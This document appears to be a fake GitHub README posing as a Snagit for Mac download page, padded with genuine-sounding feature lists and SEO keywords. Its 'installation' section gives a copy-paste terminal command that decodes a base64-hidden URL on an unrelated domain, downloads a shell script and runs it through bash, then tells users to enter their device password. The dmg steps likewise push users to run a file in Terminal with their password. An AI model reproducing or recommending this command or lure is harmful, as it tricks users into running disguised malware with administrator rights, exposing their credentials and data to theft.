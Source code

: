# Snagit Mac Download

![Snagit Screenshot](https://img.utdstc.com/icon/249/46c/24946c43db175440bacce8d1103ca03197d66d4bceb209437f25cbc18c4d86c1:200)

[![Download Now](https://img.shields.io/badge/Download--Now-Snagit%20Mac-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/snagitmac)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📦 What is Snagit for Mac?

**Snagit for Mac** is a professional-grade screen capture and screen recording tool developed by TechSmith. It’s built for anyone who needs to create high-quality tutorials, training videos, walkthroughs, or visual documentation—all with minimal effort and maximum control.

Snagit allows you to capture your full screen, a specific window, a scrolling webpage, or a selected region. Beyond simple screenshots, you can also record screen activity with webcam and audio narration—ideal for creating explainer videos or software demos.

Once captured, Snagit provides an intuitive editor where you can annotate, crop, blur, add arrows, text, highlights, and more. The built-in templates make it easy to turn your captures into visual step-by-step guides, while the video trimming tool lets you polish recordings before sharing.

Whether you're a teacher, designer, developer, support agent, or content creator, **Snagit for macOS** is a must-have productivity tool that saves time and improves communication through visuals.

![Snagit Screenshot](https://support.techsmith.com/hc/article_attachments/28069336476301)

---

## 🌟 Key Features & Benefits

- 🖼️ **Scrolling Screen Capture** — Capture entire web pages or long documents that extend beyond the screen.
- 🎥 **Screen Recording** — Record screen + webcam with system audio or microphone narration.
- 📝 **Powerful Annotations** — Add arrows, text, blur, shapes, highlights, and step numbering.
- 🧩 **Templates & Themes** — Create tutorials and guides in a consistent, branded style.
- ✂️ **Video Trimming** — Cut unwanted parts before sharing your screen recordings.
- 📁 **Multiple Output Formats** — Export in PNG, JPG, MP4, GIF, and PDF formats.
- 🔄 **Cross-Platform** — Sync captures across Mac and Windows versions via Snagit Library.
- ☁️ **Cloud Sharing** — Instantly share via Screencast, Dropbox, Google Drive, or email.
- ⚡ **Optimized for macOS** — Full support for Apple Silicon (M1/M2/M3) and Retina displays.

---

## 🖥️ System Requirements

- **macOS**: 11.0 Big Sur or later  
- **Processor**: Intel or Apple Silicon (M1, M2, M3)  
- **RAM**: 4 GB minimum  
- **Disk Space**: ~500 MB  
- **License**: Free trial (15 days), paid license for full access

---

## 🏷️ Keywords

snagit macos, snagit mac, snagit download mac, snagit tool for mac, snagit app for mac, snagit osx, snagit 2021 download for mac, snagit 2020 mac download, snagit mac free
